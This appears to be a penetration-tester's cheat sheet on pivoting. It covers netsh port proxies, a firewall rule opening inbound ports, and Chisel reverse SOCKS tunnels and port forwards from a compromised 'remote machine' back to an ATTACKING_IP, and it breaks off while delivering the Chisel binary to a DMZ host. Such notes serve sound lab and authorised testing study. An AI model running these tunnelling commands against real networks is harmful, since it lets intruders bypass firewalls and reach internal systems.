   ```
`netsh interface portproxy add v4tov4 listenport=<PORT> listenaddress=<IP> connectport=<forward-PORT> connectaddress=<forward-IP>`
- use netsh (`interface`) context to `add` an IPv4-to-IPv4 (`v4tov4`) proxy (`portproxy`)
- listening on `<target-IP>` (`listenaddress=target-IP`), port `<target-port>` (`listenport=<target-port>`)
- that will forward to `<forward-IP>` (`connectaddress=<forward-IP>`), port `<forward-port>` (`connectport=<forward-port>`)

#### allow inbound traffic on TCP port 4455
`netsh advfirewall firewall add rule name="forward_port_rule" protocol=TCP dir=in localip=<IP> localport=<port> action=allow`


### Chisel

- https://0xdf.gitlab.io/2019/06/01/htb-sizzle.html
- https://ap3x.github.io/posts/pivoting-with-chisel/
- https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/
- https://notes.benheater.com/books/network-pivoting/page/port-forwarding-with-chisel
- To have the process in the background, use `&` at the end of the command

**Port forwarding with chisel**: https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-chisel/
```
./chisel server -p 9999 --reverse
./chisel client 192.168.45.193:9999 R:8000:socks                <# dynamic port forwarding #>
./chisel.exe client 192.168.45.193:9999 R:8090:localhost:80     <# port forwarding port 80 
                                                                     connect then to localhost:8090 
                                                                     usefull for /phpmyadmin/ #>
```

**Proxy**
1. on the attacker machine: `chisel server -p LISTEN_PORT --reverse`
2. on the remote machine: `.\chisel.exe client ATTACKING_IP:LOCAL_OPEN_PORT R:LISTEN_PORT:socks`

**Reverse SOCKS Proxy**
1. On the attacker machine: `chisel server -p LISTEN_PORT --reverse`
2. On the remote machine: `./chisel client ATTACKING_IP:LISTEN_PORT R:socks`
3. `sudo nano /etc/proxychains.conf`
   comment everything under `[ProxyList]` and add a new line `socks5 127.0.0.1 LISTEN_PORT`
   + you can also add FoxyProxy > `socks5 127.0.0.1 4242`

**Forward SOCKS Proxy**
1. On the remote machine: `./chisel server -p LISTEN_PORT --socks5`
2. On the attacker machine: `chisel client TARGET_IP:LISTEN_PORT PROXY_PORT:socks`

**Remote Port Forward**
1. On the attacker machine: `./chisel server -p LISTEN_PORT --reverse`
2. On the remote machine: `./chisel client ATTACKING_IP:LISTEN_PORT R:LOCAL_PORT:TARGET_IP:TARGET_PORT`

**Local port forwarding**
1. On the remote machine: `chisel server -p LISTEN_PORT`
2. On the attacker machine: `.\chisel client LISTEN_IP:LISTEN_PORT LOCAL_PORT:TARGET_IP:TARGET_PORT`

**HTTP Tunneling**
1. The machines are `KALI01`, `DMZ01` and `INTERNAL01`
   - `KALI01` will listen on TCP port `1080`, a SOCKS proxy port
2. In `KALI01`, copy the [Chisel](https://www.kali.org/tools/chisel/) binary to the Apache2 server folder `sudo cp $(which chisel) /var/www/html/` and start Apache2 `sudo systemctl start apache2`
3. Deliver the Chisel executable to the `DMZ`
```